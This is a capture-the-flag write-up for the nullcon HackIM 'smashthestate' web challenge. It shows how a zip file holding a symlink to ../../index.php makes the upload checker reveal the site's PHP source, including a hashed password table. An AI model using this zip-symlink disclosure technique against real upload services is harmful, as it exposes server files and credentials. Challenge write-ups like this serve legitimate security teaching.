 # nullcon HackIM : smashthestate

**Category:** Web
**Points:** 400
**Solves:**
**Description:**

> This beautiful website for testing zip files contains a replica of a vulnerability found in a well known bug bounty site.
>
> Log in with rob:smashthestate then exploit the vulnerability to gain access to the 'admin' account and the flag.
>
> Automated tools and bruteforcing will not help you solve this challenge.
>
>
> <http://54.152.101.3/>

[index.php](./index.php)

## Write-up

by d1rt

Logging into the server with the `rob:smashthestate` combo takes you to a form that promises to allow you to upload and confirm zip file contents, if you upload a zip file containing a directory you'll be given an error from the `cat` command printed on screen.

`cat: /var/www/html/tmp/upload_18vrn198vcn191nv1/test: Is a directory`

Make a local symlink, then store it in a zip file that preserves symlinks

```
$ ln -s ../../index.php flag
$ zip -y flag.zip flag
  adding: flag (stored 0%)
```

Upload this to the server and you'll get the source code of `index.php` dumped to the page

```
<!--?php
$FAKE_DATABASE = array (
    "rob" =--> "60df0ab1a78fd0d95a4cfa4b0854931b", // smashthestate
    "admin" =&gt; "6ec4b9f5cd1d4fd45746f8e592aa321e",
);
$page = $_GET['page'];

switch ($page) {
    case "login":
        echo "trying to log in";
        $user = $_POST['user'];
        $pass = $_POST['pass'];
...snip...
```

There is a section the appears to dump the flag:

```
    case "admin_login_help":
        session_start();
        if(!isset($_SESSION['login_code']) ){
            $_SESSION['login_code'] = bin2hex(openssl_random_pseudo_bytes(18));
            echo "khack has disabled zis function, please click <a href="?page=code_submit">here</a>\n";
        }
        else {
            echo "khack has disabled the function for zis session";
        }
        break;
    case "code_submit":
        session_start();
        $code = $_POST['code'];
        if (isset($code) &amp;&amp; isset($_SESSION['login_code'])) {
            if ($code == "khack" ){
                echo "Flag: ";
                passthru("sudo /bin/cat /var/www/html/flag");
            }
            else {
                echo "Invalid code";
            }
        }
        else {
            echo "<form action="?page=code_submit" method="POST">Please input the login code:<input name="code"><input type="submit" value="submit"></form>";
        }
```

**it is a lie and always dumps an empty flag**

just submit the md5i hash of the admin password, done.


## Other write-ups and resources

* <http://losfuzzys.github.io/writeup/2016/02/02/hackim2016-smashthestate400/>
* <https://0x90r00t.com/2016/02/03/hackim-2016web-400-smashthestate-write-up/>
